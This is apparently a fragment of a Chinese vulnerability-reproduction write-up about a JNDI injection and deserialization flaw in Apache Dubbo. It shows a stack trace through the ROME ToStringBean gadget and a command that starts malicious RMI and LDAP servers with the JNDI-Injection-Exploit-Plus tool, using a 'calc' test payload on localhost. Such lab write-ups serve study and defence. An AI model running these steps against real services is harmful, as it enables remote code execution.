 ```java
	at com.rometools.rome.feed.impl.ToStringBean.toString(ToStringBean.java:129)
	at java.lang.String.valueOf(String.java:2994)
	at java.lang.StringBuilder.append(StringBuilder.java:131)
	at java.util.AbstractMap.toString(AbstractMap.java:536)
	at java.lang.String.valueOf(String.java:2994)
	at java.lang.StringBuilder.append(StringBuilder.java:131)
	at org.apache.dubbo.rpc.RpcInvocation.toString(RpcInvocation.java:429)
	at org.apache.dubbo.remoting.exchange.Request.safeToString(Request.java:63)
	at org.apache.dubbo.remoting.exchange.Request.toString(Request.java:133)
	at java.lang.String.valueOf(String.java:2994)
	at java.lang.StringBuilder.append(StringBuilder.java:131)
	at org.apache.dubbo.remoting.transport.dispatcher.ChannelEventRunnable.run(ChannelEventRunnable.java:59)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
	at java.lang.Thread.run(Thread.java:745)
```



## 5 漏洞复现

因为利用的是`JNDI`注入的攻击手法所以先用工具起一个恶意的`RMISERVER`和`LDAPSERVER`

工具：https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/

```bash
java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "calc" -A "127.0.0.1"
```

![image-20240429212251835](assets/image-20240429212251835.png)
